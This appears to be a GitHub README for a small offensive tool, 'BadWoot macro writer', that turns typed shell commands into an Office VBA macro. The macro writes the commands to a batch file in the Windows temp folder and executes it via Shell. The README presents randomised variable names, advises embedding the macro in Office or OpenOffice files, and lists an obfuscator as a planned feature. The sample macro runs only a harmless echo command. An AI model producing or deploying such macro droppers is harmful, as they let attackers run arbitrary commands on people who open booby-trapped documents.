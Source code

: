 # VBS_Maker
Create VBS script from CLI


## Usage :

### Lunch the script and type what you whant to be executed via VBS Macro script :
=====================================

      (ô-ô)
       ( )
BadWoot macro writer

    By Ariane

(Type 'finish' if end) (type '\\' for '\' ex : C:\\ for C:\)

Pro Tips : Place your BAT script in /tmp/line.dat and type finish !
Final BAT file is write in C:\Windows\Temp\Powned.bat

ligne de cmd > echo "coucou" > C:\\Users\\%username%\\Desktop\\coucou.txt

=====================================

### Then, type "finish" when it's done, the final VBA is located in /tmp/ :
=====================================

Sub coucou()
Dim f As Integer
Dim Powned As String
'MaKr0><>m4k€r'
f = FreeFile
Powned = "C:\Windows\Temp\"
Dim uuZAHLXUxBGvvpVnvhsM As String
Dim zHpXDDNAWyybMAlwxwoZ As String
Dim GBMdjLDzQCxTOjqckZOZ As String
uuZAHLXUxBGvvpVnvhsM = "echo "coucou""
zHpXDDNAWyybMAlwxwoZ = "echo "yolo""
GBMdjLDzQCxTOjqckZOZ = "echo "coucou" > C:\Users\%username%\Desktop\coucou.txt"
Open Powned For Output As #f
print #f, uuZAHLXUxBGvvpVnvhsM
print #f, zHpXDDNAWyybMAlwxwoZ
print #f, GBMdjLDzQCxTOjqckZOZ
Close #f
Shell (Powned)
End Sub

=====================================

### Info
The script create random Dim name for every new line typed, then execute them via "Shell" parameter.

You can put this VBA in OFFICE / OPEN-OFFICE macro file.

### TODO : 
create obfuscator
